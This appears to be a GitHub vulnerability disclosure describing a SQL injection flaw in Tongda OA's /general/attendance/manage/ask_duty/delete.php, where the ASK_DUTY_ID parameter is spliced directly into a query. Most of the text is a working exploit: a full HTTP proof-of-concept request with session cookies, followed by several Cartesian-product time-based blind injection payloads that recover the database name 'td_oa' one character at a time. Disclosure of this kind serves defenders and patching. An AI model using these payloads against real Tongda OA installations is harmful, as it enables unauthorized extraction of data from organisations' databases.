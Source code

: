 SQL injection vulnerability exists in Tongda OA

1.Route: /general/attendance/manage/ask_duty/delete.php
There is an injected parameter: $ASK_DUTY_ID
The code here is very concise. When $ASK_DUTY_ID is not empty, the parameters are directly spliced ​​into the SQL statement. Since the brackets are closed here, there is a bypass.

![image](https://github.com/b51s77/cve/assets/50482841/f30d25bc-a29d-46e4-a8ba-1fdbd6847a84)

POC

```
GET /general/attendance/manage/ask_duty/delete.php?ASK_DUTY_ID=1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: USER_NAME_COOKIE=admin; SID_1=18d621c5; OA_USER_ID=admin; PHPSESSID=slp3nuad96tlfu38tksf1rk9f0
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
```

2.We can use Cartesian product blind injection for injection. The following payload can determine that the first character of the database name is t, because it was successfully delayed at 116. The ASCII code 116 also corresponds to the lowercase letter t. By analogy, the database name and any information about the database can be obtained through blind injection.

```
1)%20and%20(substr(DATABASE(),1,1))=char(116)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image](https://github.com/b51s77/cve/assets/50482841/5b03f0b8-7c2d-4bd6-b050-2f758cdfbd43)

Intercept the second digit of the database through blind injection, and determine the second digit as the letter d through the delay time

```
1)%20and%20(substr(DATABASE(),2,1))=char(100)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![image](https://github.com/b51s77/cve/assets/50482841/6353bf5a-f7ff-4bee-843d-c2876dc2206b)

The third digit is the character _

```
1)%20and%20(substr(DATABASE(),3,1))=char(95)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image](https://github.com/b51s77/cve/assets/50482841/a3303143-b99b-49b1-862f-69945a458c0b)

The fourth digit is the character o

```
1)%20and%20(substr(DATABASE(),4,1))=char(111)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```

![image](https://github.com/b51s77/cve/assets/50482841/1ecebe09-4618-4e6f-8436-c3b7afd7824c)
The fifth digit is the character a

```
1)%20and%20(substr(DATABASE(),5,1))=char(97)%20and%20(select%20count(*)%20from%20information_schema.columns%20A,information_schema.columns%20B)%20and(1)=(1
```
![image](https://github.com/b51s77/cve/assets/50482841/a5d4174c-e24c-4f40-b90b-286f9eba38c7)

Then through blind injection, you can determine that the database name is: td_oa

